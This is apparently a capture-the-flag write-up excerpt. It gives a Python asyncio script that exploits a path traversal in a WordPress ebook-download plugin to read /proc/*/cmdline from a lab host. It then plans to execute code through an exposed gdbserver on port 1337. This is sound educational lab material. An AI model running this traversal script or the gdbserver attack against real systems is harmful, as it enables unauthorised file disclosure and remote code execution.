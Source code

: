 Wrote this script *async_traverse.py*

```
#!/usr/bin/env python3


import aiohttp
import asyncio


async def fetch_process(session,x):
    
    param=f'../../../../../../proc/{x}/cmdline'
    url = 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='+param
    async with session.get(url) as resp:
        result = (await resp.text())[3*len(param):-31]
        if result:
            print(f"{x:5}: {result}")

async def main():

    async with aiohttp.ClientSession() as session:

        tasks = []
        for i in range(1, 1000):
            tasks.append(asyncio.ensure_future(fetch_process(session, i)))

        processes = await asyncio.gather(*tasks)
        
asyncio.run(main())
```

Now this script takes hardly 4 seconds to complete while previous one took more than 15 minutes on my computer. 

![Screenshot from 2022-04-26 01-41-24](https://user-images.githubusercontent.com/79413473/165167142-055fe727-e02f-45b7-8ddc-93e4c14b8af7.png)

Now ofcourse PID 912 stands out as this is what starting a listener on port 1337 with gdbserver. 

![Screenshot from 2022-04-26 01-42-55](https://user-images.githubusercontent.com/79413473/165167345-a4c12c46-d623-4a07-b69a-b5b317786fa2.png)

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```
And that's why our port scan didn't pick port 1337 sometimes. As it's not something stable. But now we know what to do with port 1337.

Now, gdbserver is a computer program that makes it possible to remotely debug other programs. Let's figure out how to connect to a gdbserver.

From reading docs and [haktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) page we can connect to a 
remote gdbserver using gdb remote mode and put a .elf file on system and execute it from gdb.
